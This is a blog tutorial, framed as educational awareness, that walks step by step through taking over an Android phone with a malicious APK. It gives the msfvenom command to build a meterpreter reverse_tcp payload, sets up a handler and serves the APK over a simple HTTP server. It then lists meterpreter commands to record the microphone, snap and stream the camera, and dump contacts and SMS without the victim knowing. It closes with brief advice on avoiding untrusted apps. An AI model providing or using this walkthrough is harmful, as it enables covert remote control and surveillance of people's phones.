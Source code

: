 <p>What can happen to your android phone when you download an android application from an untrusted source? What would be its impact on your phone? Well, the results are pretty scary. You won't even know what is going on in the background of your android phone when you download a malicious application.</p>

<p>In this article, we will learn how an attacker can take over control on your phone when you install an application from untrusted sources. We will learn about the approach he/she can take and the results. So, let's begin.</p>

<p><em><strong>Note:</strong> Before we proceed, please keep in mind that this tutorial/article is just for an educational purpose. This is to make everyone aware about the consequences of using android application from an untrusted/unknown sources.</em></p>

<p>I will be performing the process in my own network only. But, one can perform the attack process in any network either LAN or WAN (External network). In this process, three actors are involved:</p>

<ul id="block-400dce76-fd3e-48ca-9918-fe47222769a8"><li>Kali Linux Machine<strong> (Attacker)</strong></li><li>Malicious Android application<strong> (APK)</strong></li><li>Android Phone<strong> (Victim)</strong></li></ul>

<p><em><strong>Note:</strong> Attacker and Victim are on the same network here i.e. 192.168.172.x.</em></p>
<br>
<p><strong>Step-1: Creating Malicious Payload</strong></p>

<p>You need to create a malicious android payload first. For this, login to your Kali Linux machine and follow the below command (Hope you already have installed the Kali Linux in your PC. If not, you can find tons of tutorial for installing Kali Linux over internet. I will not be wasting your time here :-D)</p>

<p><strong>#<code>msfvenom -p android/meterpreter/reverse_tcp LHOST=&lt;ip-address&gt; LPORT=&lt;any unused port&gt; -f raw &gt; myandroid.apk</code></strong></p>

![image-1](https://user-images.githubusercontent.com/92144178/136511602-460ffb67-f397-43f4-9dc5-80336e06afc8.png)

<p>"<em>Msfvenom, here is a command line instance of Metasploit that is used to generate and output all of the various types of shell code that are available in Metasploit.</em>"</p>

<strong>•	-p:</strong> Payload <br><strong>•	LHOST:</strong> Local Host <br><strong>•	LPORT:</strong> Local Port <br><strong>•	-f:</strong> Format
 
<br>
<p><strong>Step-2: Launch Metasploit Framework</strong></p>

<p>Once you create your own APK, it's time launch metasploit framework using msfconsole command in Kali linux machine.</p>

<p>"<em>The Metasploit Framework is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute exploit code. The Metasploit Framework contains a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection.</em>"</p>

<p>Once the Metasploit framework is launched, you need to use multi/handler, which is a stub that handles exploits launched outside of the framework.</p>

![image-2](https://user-images.githubusercontent.com/92144178/136511950-a4fd8947-33f7-4ae3-b1e3-0650d921a334.png)

<p><em><strong>Note:</strong> Make sure you're using the same payload which you have used while creating the malicious apk in Step-1.</em></p>
<br>
<p><strong>Step-3: Host the Malicious Android Application</strong></p>

<p>Now, handler is running. You need to host your malicious android application to somewhere so that victim can download it in his/her android phone.</p>

<p>As this process is only for our own network, you can host it there only. For this you can use one python's module called SimpleHTTPServer.</p>

<p>"<em>Python’s SimpleHTTPServer is the classic quick solution for serving the files in a directory via HTTP (often, you’ll access them locally, via localhost).</em>"</p>

<p><strong>#<code>python -m SimpleHTTPServer 8080</code></strong></p>

![image-3](https://user-images.githubusercontent.com/92144178/136512500-039235d0-94dc-42bc-9719-1e1cdd726000.png)

<p><em><strong>Note:</strong> The above command should be run under the same directory where the malicious android application is kept.</em></p>
<br>
<p><strong>Step-4: Download the Hosted Malicious APK on Android Phone</strong></p>

<p>Now, download the malicious android application using the following URL in your android phone's browser. <em>(Please remember the IP address in the URL is your Kali Linux machine local IP address)</em></p>

<p><strong><code>http://192.168.172.32:8080/myandroid.apk</code></strong></p>

![Screenshot_20211007-131743_Chrome](https://user-images.githubusercontent.com/92144178/136513557-054fb4a3-ad08-4ebb-81fa-9d08e687fc6c.jpg)
<br>
<p>Once the hosted APK is accessed from your android phone, you can see the logs generated in Kali Linux for SimpleHTTPServer.</p>

![simple-http-server-log](https://user-images.githubusercontent.com/92144178/136512906-a0d5fcd8-d392-42f9-a399-3dd439cae55e.png)

<br>
<p><strong>Step-5: Install and Access the Android Application</strong></p>

<p>Once the apk is downloaded, install it and click on it.</p>

![combined-package-installer-and-file-resized-2](https://user-images.githubusercontent.com/92144178/136516291-b3873611-e311-4f58-9bff-560e8cdcf2f3.jpg)

<br>
<p><strong>Step-6: Et Voilà !..You Got the Control</strong></p>

<p>Once you click on the application, you can look into your Kali Linux machine. You must have got the meterpreter session. That means, you have the control on victim's android phone.</p>

![image-4](https://user-images.githubusercontent.com/92144178/136516512-5136ce39-c12f-40f5-a57a-ccb6b62fbf27.png)

<br>
<p><strong>Step-7: Get Ready for the Killing</strong></p>

<p>Now, you can type "help" command to see what you can do with the victim's phone.</p>

![help-all-combined](https://user-images.githubusercontent.com/92144178/136519833-ceb86a4e-0e2b-4133-bafe-76c85cb73274.png)

<br>
<p><strong>Step-8: Sneak Peek</strong></p>

<p>As you can see, you can run numerous commands on the hacked android phone. You can dump all the contact numbers, SMS and other sensitive data. You can record the audio, switch ON the camera and even run a live webcam on victim's phone. Victim will be totally unaware about it. Here're the command below you can run to check:</p>

<p><strong>meterpreter&gt;record_mic</strong>  --&gt; To record the audio</p>
<p><strong>meterpreter&gt;webcam_snap</strong>  --&gt; To capture the image from the camera</p>
<p><strong>meterpreter&gt;webcam_stream</strong>  --&gt; To run live camera/video</p>

<p>As you can see, how scary it can be if you download the android application from unknown/untrusted sources.</p>
<br>
<p><strong>Conclusion</strong></p>

<p>So, what we learned from the activity we've done is:</p>

<ul><li>Never download any android application from unknown/untrusted sources.</li><li>Always download the application from Google Play Store.</li><li>Make sure your installed application gets scanned with Google Play Protect.</li><li>Disable Installation of Unknown applications in phone Settings.</li></ul>

<br>
<p>So, this is it for now. I hope this article was insightful. In the 2nd part, we will learn more sophisticated way to create malicious android application. Stay tuned..!!</p>

<p><strong>Reference</strong></p>

<li><a href="https://www.offensive-security.com/metasploit-unleashed/">https://www.offensive-security.com/metasploit-unleashed/</a></li>

<br>
<p><strong>Upcoming Blog - How to Hack an Android Phone using an Malicious Android Application (Part-1)</strong></p>

<script src="https://utteranc.es/client.js"
        repo="vinagrsec/android-hacking"
        issue-term="pathname"
        theme="github-light"
        crossorigin="anonymous"
        async>
</script>


